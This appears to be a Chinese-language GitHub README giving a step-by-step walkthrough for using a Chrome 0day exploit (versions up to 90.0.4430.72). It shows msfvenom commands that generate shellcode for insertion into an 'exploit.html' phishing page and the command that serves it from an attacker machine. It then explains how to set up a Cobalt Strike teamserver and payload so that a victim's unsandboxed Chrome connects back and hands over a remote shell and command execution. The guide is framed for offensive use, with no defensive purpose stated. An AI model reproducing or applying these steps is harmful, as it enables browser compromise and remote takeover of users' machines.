# Chrome-0day
## 影响范围

目前最新版也受影响。

小于等于90.0.4430.72 (正式版本)

## 漏洞利用过程

测试环境：

Windows 10 x64

Chrome 90.0.4430.72 (正式版本)

## 1.执行系统命令

### 1.1生成shellcode代码

#### 弹出计算器的shellcode生成命令：

**64位操作系统：**

```
msfvenom -a x64 -p windows/x64/exec CMD="calc" EXITFUNC=thread -f num
```

**32位操作系统：**

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*（当然也可以换成其他系统命令，注意这里的架构要和浏览器所在操作系统的保持一致，一般为64位）*

### 1.2制作html钓鱼文件


将生成的代码放入exploit.html中shellcode[]中。

#### 1.2.1 方式一

浏览器关闭沙盒并打开网页

```
"C:\Program Files\Google\Chrome\Application\chrome.exe" --no-sanbox file:///C:/chrome0day/exploit.html
```


#### 1.2.2 方式二

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

http://192.168.43.232/exploit.html




然后记得关闭沙盒后打开使用Chrome浏览器访问exploit.html即可成功反弹shell。


### 1.2.3关闭沙盒方法：

**命令方式：**

chrome.exe --no-sandbox

**手动方式：**

在快捷方式属性中目标后面添加" --no-sandbox",注意引号后有一个空格。




## 2.Cobalt Strike 利用 Chrome 0day 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```



出现以上页面说明启动成功。

**2.1.2 启动客户端：**



**2.1.3启动监听器：**



### 2.2 Cobalt Strike生成payload

2.2.1**按照步骤生成payload.c文件，注意这里勾选x64**。





2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。



2.2.3 将引号里的代码复制到exploit.html文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。



2.2.4 打开没有开启沙盒的Chrome浏览器访问：http://192.168.43.232/exploit.html



2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。




